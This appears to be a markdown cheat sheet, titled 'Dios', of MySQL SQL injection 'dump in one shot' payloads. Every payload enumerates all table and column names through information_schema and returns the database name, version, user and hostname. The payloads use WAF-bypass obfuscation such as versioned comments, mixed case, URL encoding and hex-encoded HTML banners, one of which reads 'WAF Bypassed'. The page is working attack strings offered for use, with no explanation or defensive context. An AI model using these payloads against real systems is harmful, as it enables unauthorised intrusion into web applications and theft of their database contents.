 
### Dios

```
/*!50000make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)*/
```
```bash
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)
```
```bash
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
```
```bash
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@)))
```
```bash
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
```

make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)


concat_ws('<br>','AZZATSSINS',database(),version(),user(),@@hostname,(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database())))

(select%20(@x)%20from%20(select%20(@x:=0x00),(select%20(0)%20from%20(information_schema.schemata)%20where%20(0x00)%20in%20(@x:=concat(@x,0x3c62723e,schema_name))))x)

(select%20(@x)%20from%20(select%20(@x:=0x00),(select%20(0)%20from%20(information_schema.tables)%20where%20(table_schema=database())%20and%20(0x00)%20in%20(@x:=concat(@x,0x3c62723e,table_name))))x)

concat(@c:=0x00,if((select%20count(*)%20from%20information_schema.columns%20where%20table_schema%20not%20like%200x696e666f726d6174696f6e5f736368656d61%20and%20@c:=concat(@c,0x3c62723e,table_name,0x2e,column_name)),0x00,0x00),@c)

concat%0b(@c:=0x00,if((select%20count(*)%20from%20/*!50000information_schema*/.columns%20/*!50000where*/%20table_schema%20not%20like%200x696e666f726d6174696f6e5f736368656d61%20and%20@c:=concat%0b(@c,0x3c62723e,/*!50000table_name*/,0x2e,/*!50000column_name*/)),0x00,0x00),@c)

concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0)%20from(information_schema./**/columns)where(table_schema=database())%20and(0x00)in(@x:=Concat/*!(@x,%200x3c62723e,%20if(%20(@tbl!=table_name),%20Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1,%202,%200x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e),%200x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/
